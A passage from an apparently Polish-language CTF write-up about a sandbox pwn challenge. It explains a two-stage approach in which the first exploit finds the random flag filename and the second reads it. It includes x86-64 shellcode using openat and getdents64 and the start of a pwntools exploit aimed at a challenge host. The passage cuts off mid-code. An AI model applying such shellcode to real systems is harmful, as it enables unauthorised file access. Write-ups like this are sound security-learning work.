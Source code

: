 ```asm
mov rax, 0x616c662f7070612f ; // /app/fla
push rax
```
Oczywiście można było, po odczytaniu nazwy flagi, zmodyfikować cały shellcode, ale szczerze mówiąc, już mi się tego nie chciało robić. I tak spędziłem nad tym 8 godzin.
{: .text-justify}
# Dwa Eksploity
{: .text-justify}
Na tym etapie pozostało napisać dwa `eksploity`. Pierwszy będzie odczytywał nazwę flagi, a drugi ją odczytywał. Nazwa flagi jest losowa i generuje się za każdym razem przy uruchomieniu instancji. Na szczęście pozostaje taka sama w obrębie tej samej instancji. 

Procedura wygląda następująco:  
1. Uruchamiamy program po raz pierwszy, aby uzyskać nazwę flagi.  
2. Modyfikujemy fragment exploita nr 1, wprowadzając odczytaną nazwę flagi.  
3. Uruchamiamy program ponownie z nowym ładunkiem i otrzymujemy flagę.
{: .text-justify}
# Pełny kod eksploita
```python
from pwn import *             

context.update(arch='x86_64', os='linux')
context.terminal = ['wt.exe','wsl.exe'] 

HOST="34.252.33.37:32232"
ADDRESS,PORT=HOST.split(":")

BINARY_NAME="./sbx"
binary = context.binary = ELF(BINARY_NAME, checksec=False)


if args.REMOTE:
    p = remote(ADDRESS,PORT)
else:
    p = process(binary.path)    

bss = 0x0000000000404048


first_payload= """

mov rax, 0x000000007070612f ; // /app
push rax

mov rdi, -100
mov rsi, rsp
xor edx, edx
xor r10, r10
mov rax,SYS_openat ;// SYS_openat
syscall

mov rdi, rax                  

mov rsi, 0x0000000000404048         ; // wskaźnik na bufor 
mov rdx, 200            ; // rozmiar bufora
mov rax, 217           ; // SYS_getdents64
syscall

mov  rax,0x0000000000404048
mov  [0x0000000000404448], rax ; // Zapis wskaźnika (adres danych) do adresu 0x404248
```